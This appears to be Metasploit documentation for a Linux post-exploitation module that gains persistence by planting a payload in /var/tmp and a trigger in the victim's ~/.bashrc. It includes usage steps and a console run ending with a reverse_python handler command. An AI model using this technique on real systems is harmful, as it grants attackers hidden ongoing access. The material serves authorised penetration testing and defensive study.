 ## Description

  This module establishes persistence via the Linux Bash profile method.
  This module makes two changes to the target system.
  First, the module writes a payload to a directory (`/var/temp/` by default).
  Second, the module writes a payload execution trigger to the Bash profile (`~/.bashrc` by default).
  The persistent payload is executed whenever the victim user opens a Bash terminal.

## Vulnerable Application

  This module has been tested successfully on:

  * Ubuntu 19 (x86_64) running GNU bash, version 5.0.3(1)-release

## Verification Steps

  1. Start `msfconsole`
  2. Get a Meterpreter session
  3. `use exploit/linux/local/bash_profile_persistence`
  4. `set SESSION [SESSION]`
  5. `run`
  6. On victim, open a new Bash terminal
  7. You should get a new session with the permissions of the exploited user account

## Options

  **BASH_PROFILE**

  The path to the target Bash profile. (default: `~/.bashrc`)

  **PAYLOAD_DIR**

  A writable directory file system path. (default: `/var/tmp`)

## Scenarios

```
msf5 > use exploit/linux/local/bash_profile_persistence
msf5 exploit(linux/local/bash_profile_persistence) > set SESSION 1
msf5 exploit(linux/local/bash_profile_persistence) > exploit

[*] Bash profile exists: /home/user/.bashrc
[*] Bash profile is writable: /home/user/.bashrc
[*] Created backup Bash profile: /root/.msf4/logs/persistence/192.168.1.191_20191128.130945_Bash_Profile.backup
[*] Writing '/var/tmp/IgHypGLMglheQ' (126 bytes) ...
[+] Wrote payload trigger to Bash profile
[!] Payload will be triggered when target opens a Bash terminal
[!] Don't forget to start your handler:
[!] msf> handler -H 0.0.0.0 -P 4444 -p cmd/unix/reverse_python
```
